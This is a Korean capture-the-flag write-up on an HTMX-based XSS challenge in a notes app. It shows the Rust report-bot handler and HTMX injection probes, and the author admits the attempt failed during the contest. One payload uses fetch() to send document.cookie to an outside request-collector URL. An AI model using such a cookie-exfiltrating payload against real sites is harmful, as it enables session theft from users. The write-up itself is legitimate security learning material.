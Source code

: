 `note.html`에서 HTMX 라이브러리를 사용하여 Note의 Content 내용을 가져오는 로직이 있었다. 이를 활용해 XSS 공격을 수행하면 될 것 같았다.   

```rust
async fn take_report(Form(report): Form<Report>) -> Result<String, (StatusCode, &'static str)> {
    // No filter params(link and captcha)
    let params = [("link", report.link), ("recaptcha", report.captcha)];
    let client = reqwest::Client::new();
    let res = client
        .post(format!(
            "http://{:}",
            std::env::var("BOT_HOST").expect("Missing BOT_HOST")
        ))
        .form(&params)
        .send()
        .await
        .expect("Can't request bot");
    if res.status() != StatusCode::OK {
        return Err((StatusCode::BAD_REQUEST, "Report failed"));
    }
    Ok(
        std::fs::read_to_string("public/static/fragment/report_success.html")
            .expect("Missing fragment"),
    )
}
```
      
추가적으로, `take_report` 함수에서 봇을 이용하여 유저가 입력한 `link`에 접속하는 코드가 존재해서 HTMX를 사용하여 XSS 공격을 수행하는 것이 올바른 방식임을 확신할 수 있었다. 
    
```html
<div hx-get="/note/1577d24c9046fa52eeb59b0b7806336d40cab5464ca601312cee840f54ed7132" hx-trigger="load delay:1s" hx-target="closest div"></div>
<div></div>
```    
     
`hx-get`을 통해 GET 요청을 날리고 받은 결과 값이 인접한 `<div>` 태그에 반영되는지 확인해보았다.
     
<img src="/assets/images/ctf/2023/hack.lu/awesomenotes-1/1.PNG" width="700px">
     
`<div id="content">` 안에 결과 값이 잘 들어가는 것이 확인되었다. 다음으로, `hx-get` 속성 값에 `<div hx-get="fetch('https://enbjsc6lizc3g.x.pipedream.net/?d='+document.cookie)" hx-trigger="load delay:1s" hx-target="closest div"></div><div></div>`를 넣어 실행해봤지만 요청이 수행되지 않았다.     
     
`BurpSuite Proxy`를 사용해서 Request를 살펴봤을 때, `GET /note/fetch('https://enbjsc6lizc3g.x.pipedream.net/?d=%27+document.cookie){note} HTTP/2` 요청을 보내 fetch() 이후 note 이름이 합쳐져 올바르지 않은 경로로 접근하여 실행되지 않는 것을 확인했다. 여기서 외부 사이트에 요청을 보내는 방법을 찾지 못해 삽질을 많이해서 대회 당시에 문제를 풀지 못했다.    
       